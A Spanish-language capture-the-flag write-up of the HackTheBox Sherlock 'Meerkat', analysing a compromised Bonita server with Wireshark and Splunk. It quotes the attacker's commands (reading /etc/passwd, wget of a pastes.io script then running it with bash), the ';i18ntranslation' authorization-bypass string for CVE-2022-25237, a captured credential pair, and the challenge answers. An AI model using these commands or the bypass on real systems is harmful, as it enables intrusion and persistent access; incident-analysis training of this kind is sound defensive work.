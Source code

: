 ```yaml
---
title: Meerkat
date: 2023-11-17 18:00:00 +/-TTTT
categories: [Threat Intel]
tags: [fácil, splunk, wireshark, threatintel, blue team]     # TAG names should always be lowercase
img_path: /assets/SHERESOURCES/MEERKAT/
image: picture.png
---
```


> Este es un reto de la sección Sherlocks en [HackTheBox](https://app.hackthebox.com/).
{: .prompt-tip}

## Escenario Sherlock

Como una startup de rápido crecimiento, Forela ha estado utilizando una plataforma de gestión empresarial. Por desgracia, nuestra documentación es escasa y nuestros administradores no son los más concienciados en materia de seguridad.

Como nuestro nuevo proveedor de seguridad, nos gustaría que echaras un vistazo a algunos PCAP y logs que hemos exportado para confirmar si hemos sido (o no) comprometidos.

## Recursos

![](Pasted image 20231117150146.png)

## Tareas

### Tarea 1 - Creemos que nuestro servidor de la Plataforma de Gestión Empresarial ha sido comprometido. Por favor, ¿Puedes confirmar el nombre de la aplicación que se está ejecutando?

Primero abrimos la captura PCAP con Wireshark y filtramos por el protocolo HTTP en la barra de filtros `http`.
![](Pasted image 20231117150557.png)

En los primeros paquetes tenemos mucha información valiosa:
* La comunicación entre `156.146.62.213` y `172.31.6.44`
* La petición a la URL `/bonita/portal/homepage`
* Respuestas del servidor con un **código 401 (Unauthorized)**, que sugiere que el "atacante" (aún no estamos seguros) trató de autenticarse repetidas veces, sin éxito.

> Si buscamos por Google vemos el nombre de la aplicación que se está ejecutando.
{: .prompt-tip}

![](Pasted image 20231117151008.png)

### Tarea 2 - Creemos que el atacante puede haber utilizado una sub-técnica de la categoría Brute Force. ¿Cuál es el nombre del ataque realizado?

Revisando el framework MITRE ATT&CK, vemos que la Técnica **Brute Force** se divide en cuatro sub-técnicas.
![](Pasted image 20231117151830.png)

**Password Guessing:**
Adversarios sin conocimiento previo de las credenciales legítimas dentro del sistema o entorno pueden adivinar las contraseñas para intentar acceder a cuentas.

**Password Cracking:**
Adversarios pueden utilizar el cracking de contraseñas para intentar recuperar credenciales utilizables, como contraseñas en texto plano o cuando se obtiene material de credenciales como hashes de contraseñas.

**Password Spraying:**
Adversarios pueden utilizar una sola contraseña o una pequeña lista de contraseñas de uso común en muchas cuentas diferentes para intentar obtener credenciales válidas.

**Credential Stuffing:**
Adversarios pueden utilizar credenciales obtenidas de filtraciones/brechas de seguridad para acceder a la organización víctima.

Por lo que tenemos que investigar cuál de ellas empleó el atacante a la hora de intentar pasar el login de `BonitaSoft`

Como queremos buscar por intentos de login fallidos, podemos filtrar por `http.request.method == POST` e investigar los paquetes enviados.
![](Pasted image 20231117160412.png)

Dentro de las peticiones vemos que el atacante intentó acceder utilizando credenciales existentes de la organización, por lo que realizó un **Credential Stuffing**

### Tarea 3 - ¿La vulnerabilidad explotada tiene asignado un CVE y de ser así, cúal?

Como además del archivo **PCAP** tenemos un archivo de **alertas** en formato JSON, podemos subir el archivo a nuestro software/SIEM favorito. En este caso utilizaré **Splunk**.

![](Pasted image 20231117163216.png)

Y tenemos un total de **789 eventos registrados**, de entre los cuales se encuentra una alerta con el campo `alert.metadata.cve{}`, que nos indica el **CVE** de la vulnerabilidad explotada.
![](Pasted image 20231117163314.png)

Además podemos ver que la IP que utilizó el atacante para el **Credential Stuffing** es diferente de esta, `138.199.59.221`

![](Pasted image 20231117165007.png)

> Investigando el **CVE** nos encontramos con que **Bonita Web 2021.2** se ve afectada por una **vulnerabilidad de evasión de autenticación/autorización** debido a un patrón de exclusión demasiado amplio utilizado en *RestAPIAuthorizationFilter*.
{: .prompt-tip}

Al añadir `;i18ntranslation` o `/../i18ntranslation/` al final de una URL, los usuarios sin privilegios pueden acceder a puntos finales de API privilegiados. Esto puede llevar a la **ejecución remota de código** abusando de las acciones privilegiadas de la API.

![](Pasted image 20231117163628.png)

### Tarea 4 - ¿Qué cadena se añadió a la ruta URL de la API para evitar el filtro de autorización mediante el exploit del atacante?

Como realizó una petición a la API podemos regresar a nuestra captura en Wireshark y filtrar por los campos `http && ip.src_host == 138.199.59.221 `
![](Pasted image 20231117165250.png)

En los primeros paquetes nos aparece la cadena que utilizó para evitar el filtro de autorización, `i18ntranslation`

### Tarea 5 - ¿Cuántas combinaciones de usuario/contraseña fueron utilizadas en el ataque Credential Stuffing?

Podemos filtrar por `ip.src == 156.146.62.213 && http.request.method == POST` para ver todas las peticiones donde se introdujo un usuario y contraseña en el login.

![](Pasted image 20231117170530.png)

Nos reporta 114 paquetes, pero tenemos que descontar aquellos que contienen los campos `install:install`.

![](Pasted image 20231117170622.png)

Como se encuentran de forma intercalada, podemos dividir los 114/2 y nos da 57 paquetes. Solo nos queda restar el paquete que contiene el protocolo HTTP/JSON para que nos dé el total de credenciales utilizadas en el ataque, `56`.

![](Pasted image 20231117170940.png)

### Tarea 6 - ¿Qué combinación de usuario y contraseña fue exitosa?

Como ya sabemos que el atacante/grupo empleó dos IP diferentes, una para realizar el **Credential Stuffing** `156.146.62.213` y otra para explotar la vulnerabilidad CVE-2022-25237 `138.199.59.221`, podemos filtrar por `http && ip.src == 138.199.59.221`

![](Pasted image 20231117171550.png)
Vemos que la primera credencial que utilizó para explotar la vulnerabilidad fue `seb.broom@forela.co.uk:g0vernm3nt`

### Tarea 7 - Si lo hubiera, ¿Qué sitio de intercambio de texto utilizó el atacante?

Si filtramos por `ip.src == 138.199.59.221 && http.request.method == GET`, para ver las peticiones GET que realizó el atacante nos encontramos con tres comandos ejecutados gracias a la vulnerabilidad en Bonita Web, entre ellos una petición a `pastes.io`.

![](Pasted image 20231117172556.png)

* cat /etc/passwd
* **wget https://pastes.io/raw/bx5gcr0et8**
* bash bx5gcr0et8

### Tarea 8 - Por favor, proporciona el hash del archivo del script utilizado por el atacante para obtener acceso persistente a nuestro host.

Si vemos lo que contiene la URL, nos encontramos con un script en Bash, que descarga otro archivo, lo agrega al final de `authorized_keys` y luego reinicia el servicio SSH, por lo que seguramente se trate de una clave pública.

![](Pasted image 20231117174341.png)

Podemos descargar el archivo (en un entorno virtualizado) con:
```bash
certutil -urlcache -f https://pastes.io/raw/bx5gcr0et8
```
y realizar un `Get-FileHash` con PowerShell:
```powershell
Get-FileHash -Algorithm MD5 bx5gcr0et8
```
![](Pasted image 20231117180635.png)

### Tarea 9 - Por favor, proporciona el hash del archivo de la clave pública utilizada por el atacante para obtener persistencia en nuestro host.

Empleando el mismo método, podemos ver que contiene la URL del primer script, logrando ver la **clave pública del atacante**.

Podemos descargarla de la misma manera que hicimos y obtener el hash MD5.
![](Pasted image 20231117181253.png)
![](Pasted image 20231117181432.png)

### Tarea 10 - ¿Puedes confirmar el archivo modificado por el atacante para ganar persistencia?

En el script se puede observar que almacena el archivo en `/home/ubuntu/.ssh/authorized_keys`

### Tarea 11 - ¿Puedes confirmar el ID de la técnica MITRE de este tipo de mecanismo de persistencia?

Viendo el framework MITRE ATT&CK dentro la táctica **Persistence**, y la técnica **Account Manipulation**, podemos ver la sub-técnica **SSH Authorized Keys** con el ID de `T1098.004`
![](Pasted image 20231117182330.png)

![](Pasted image 20231117182805.png)